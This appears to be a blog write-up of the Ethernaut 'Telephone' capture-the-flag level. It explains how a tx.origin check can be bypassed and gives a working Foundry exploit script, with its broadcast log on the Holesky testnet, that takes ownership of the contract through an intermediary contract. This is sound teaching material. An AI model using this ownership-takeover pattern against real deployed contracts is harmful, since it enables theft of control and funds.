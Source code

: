 ```yaml
---
layout: post
title: "[Ethernaut] Telephone"
tags: blockchain ethernaut foundry
---
```


# Analysis

---
The goal is

1. Claim ownership

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

When initially creating a contract, the `owner` is set to `msg.sender`. However, in the `changeOwner()` function, if `tx.origin` and `msg.sender` are different, **the value received as an argument** is set as the `owner`.

`tx.origin` is the address that first initiated the contract call (it's always an EOA account),

`msg.sender` is the address that last called the contract.

If I call contract A, and contract A calls contract B, a difference will arise between `tx.origin` and `msg.sender` within contract B.

# Exploit

---

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/Telephone.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract Ex {
    constructor(Telephone telephone_, address _address) {
        telephone_.changeOwner(_address);
    }
}

contract TelephoneSol is Script {
    Telephone public telephone_ = Telephone(0x2823D4881bbE52bBaCc385753eDf4Fb5f15167fe);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        console.log("owner: ", telephone_.owner());
        new Ex(telephone_, vm.envAddress("MY_ADDRESS"));
        console.log("owner: ", telephone_.owner());

        vm.stopBroadcast();
    }
}
```

```bash
$ forge script script/TelephoneSol.sol --broadcast --tc TelephoneSol
[⠊] Compiling...
[⠰] Compiling 1 files with Solc 0.8.29
[⠔] Solc 0.8.29 finished in 283.34ms
Compiler run successful!
Script ran successfully.

== Logs ==
  owner:  0x983B67F395c62AeE070B9c34033Bc8836E0713Eb
  owner:  0x6f5Ad1E6F1a624E4Ad37f0B7D6f100ab1Db29514

## Setting up 1 EVM.

==========================

Chain 17000

Estimated gas price: 0.001913718 gwei

Estimated total gas used for script: 107575

Estimated amount required: 0.00000020586821385 ETH

==========================
⠁ Sequence #1 on holesky | Waiting for pending transactions
    ⠠ [Pending] 0xeb3d1ed29a0f8fbf261705f6b3f6d721b8a1f3e312a5d41ed3d4194ae44f274d
    ⠲ [00:00:08] [#####################################################################] 1/1 txes (0.0s)

##### holesky
✅  [Success] Hash: 0xeb3d1ed29a0f8fbf261705f6b3f6d721b8a1f3e312a5d41ed3d4194ae44f274d
Contract Address: 0x596F07f432EB60a01F9ff7007060F4982b7C01fC
Block: 3672184
Paid: 0.000000158359337 ETH (82750 gas * 0.001913708 gwei)

✅ Sequence #1 on holesky | Total Paid: 0.000000158359337 ETH (82750 gas * avg 0.001913708 gwei)

==========================

ONCHAIN EXECUTION COMPLETE & SUCCESSFUL.
```

![Image complete]({{site.url}}/images/2025-04-18-Telephone/complete.png)

![Image owner]({{site.url}}/images/2025-04-18-Telephone/owner().png)